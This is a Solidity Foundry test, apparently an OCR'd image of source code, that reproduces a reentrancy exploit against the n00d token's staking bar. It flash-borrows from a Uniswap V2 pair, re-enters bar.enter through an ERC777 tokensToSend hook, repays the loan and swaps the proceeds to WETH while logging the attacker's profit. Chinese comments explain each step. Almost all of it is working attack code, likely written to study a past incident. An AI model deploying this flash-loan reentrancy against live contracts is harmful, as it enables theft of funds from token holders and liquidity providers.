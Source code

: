 ```
    uint wethReserve;
    function setUp() public {
        // cheats.createSelectFork("mainnet", 15826379);
    }



    function testExploit() public{
        registry.setInterfaceImplementer(address(this), bytes32(0x29ddb589b1fb5fc7cf394961c1adf5f8c6454761adf795e67fe149f658abe895), address(this));
        for (uint256 curAttCount = 0; curAttCount < ATTACK_COUNT; curAttCount++) { //　共执行4次攻击
            console2.log("\n[Attack times: %d]", curAttCount);
            curCountPerAttack = 0; // 每轮攻击之前，将重入的次数归0

            (n00dReserve, wethReserve, ) = pair.getReserves();
            console2.log("\nPair n00dReserve: %d, wethReserve: %d", n00dReserve, wethReserve);
            n00d.approve(BARADDR, ~uint(0));
            bytes memory data = "0x333";
            pair.swap(n00dReserve - 1, 0, address(this), data); //进行闪电贷，会来到自定义的uniswapV2Call函数执行
            uint amountIn = n00d.balanceOf(address(this));
            (uint n00dR, uint WETHR, ) = pair.getReserves();
            uint amountOut = amountIn * 997 * WETHR / (amountIn * 997 + n00dR * 1000);
            n00d.transfer(address(pair), amountIn);
            pair.swap(0, amountOut, address(this), "");
            emit log_named_decimal_uint(
                "Attacker WETH profit after exploit",
                WETH.balanceOf(address(this)),
                18
            );
        }

    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public{
        enterAmount = (n00d.balanceOf(address(this))-1) / 4; // 攻击过程中使用的是4,因为共执行了3次enter,需要用到3份资金,这里就比3多分了一份。

        // enter的计算方式: uint barSwapCount = enterAmount.mul(bar.totalSupply()).div(n00d.balanceOf(BARADDR));
        bar.enter(enterAmount);
        // leave的计算方式: _share.mul(sushi.balanceOf(address(this))).div(totalShares);
        // uint n00dSwapCount = (bar.balanceOf(address(this)).mul(n00d.balanceOf(BARADDR))).div(bar.totalSupply());

        bar.leave(bar.balanceOf(address(this)));

        uint flashReAmount = n00dReserve * 1000 / 997 + 1;
        n00d.transfer(address(pair), flashReAmount); //归还闪电贷本息
    }

    function tokensToSend(
        address operator,
        address from,
        address to,
        uint256 amount,
        bytes calldata userData,
        bytes calldata operatorData
    ) external {
        if(to == address(bar) && curCountPerAttack < RECOUNT_PER_ATTACK){ // 攻击者执行了2次
            curCountPerAttack++;
            bar.enter(enterAmount);
        }
```